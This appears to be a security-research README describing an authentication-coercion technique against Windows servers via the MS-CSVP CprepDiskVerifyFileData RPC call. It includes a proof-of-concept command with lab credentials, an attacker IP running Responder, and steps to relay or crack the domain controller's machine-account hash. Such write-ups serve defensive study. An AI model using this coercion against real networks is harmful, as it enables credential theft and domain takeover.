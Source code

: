 # MS-CSVP - Remote call to CprepDiskVerifyFileData (opnum 18)

## Summary

 - **Protocol**: [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279)

 - **Protocol UUID**: 12108a88-6858-4467-b92f-e6cf4568dfb6

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`CprepDiskVerifyFileData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/232aa384-959a-4b3f-8c3f-dd4bb0ba6fde)

 - **Function operation number**: `18`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol (with uuid `12108a88-6858-4467-b92f-e6cf4568dfb6` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) and allows to call RPC functions of this protocol. We will then call the remote [`CprepDiskVerifyFileData`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/232aa384-959a-4b3f-8c3f-dd4bb0ba6fde) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CprepDiskVerifyFileData('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CprepDiskVerifyFileData(
   [in] CPREP_DISKID DiskId,
   [in] unsigned long ulPartition,
   [in, string] wchar_t* FileName,
   [in] unsigned long cbDataIn,
   [in, size_is(cbDataIn)] byte* DataIn
 );
```

## References

 - Documentation of protocol [MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279

 - Documentation of function `CprepDiskVerifyFileData`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/232aa384-959a-4b3f-8c3f-dd4bb0ba6fde